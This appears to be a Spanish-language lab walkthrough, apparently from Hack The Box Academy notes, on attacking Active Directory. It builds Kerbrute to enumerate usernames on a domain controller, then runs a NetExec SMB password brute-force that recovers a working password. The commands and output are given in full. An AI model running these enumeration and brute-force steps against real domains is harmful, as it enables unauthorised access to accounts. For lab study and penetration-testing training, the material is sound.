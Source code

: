 Podemos hacerlo con una herramienta como Kerbrute. Kerbrute puede utilizarse para ataques de fuerza bruta, rociado de contraseñas y enumeración de nombres de usuario. 
>https://github.com/ropnop/kerbrute

Para esto, me instalo kerbrute y go:
```
sudo apt update
sudo apt install golang-go -y
go version

git clone https://github.com/ropnop/kerbrute
cd /kerbrute
GOOS=linux GOARCH=amd64 go build -o kerbrute_linux_amd64 .

chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 --help
```

Por ahora, solo nos interesa la enumeración de nombres de usuario, que se vería así:
```shell-session
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/25/25 - Ronnie Flathers @ropnop

2025/04/25 09:17:10 >  Using KDC(s):
2025/04/25 09:17:10 >   10.129.201.57:88

2025/04/25 09:17:11 >  [+] VALID USERNAME:       bwilliamson@inlanefreight.local
<SNIP>
```

### Lanzando un ataque de fuerza bruta con NetExec:
Una vez preparadas nuestras listas o conocida la convención de nomenclatura y los nombres de algunos empleados, podemos lanzar un ataque de fuerza bruta contra el controlador de dominio objetivo con una herramienta como NetExec. Podemos usarla junto con el protocolo SMB para enviar solicitudes de inicio de sesión al controlador de dominio objetivo. Este es el comando para hacerlo:

```shell-session
Polika4RM@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```
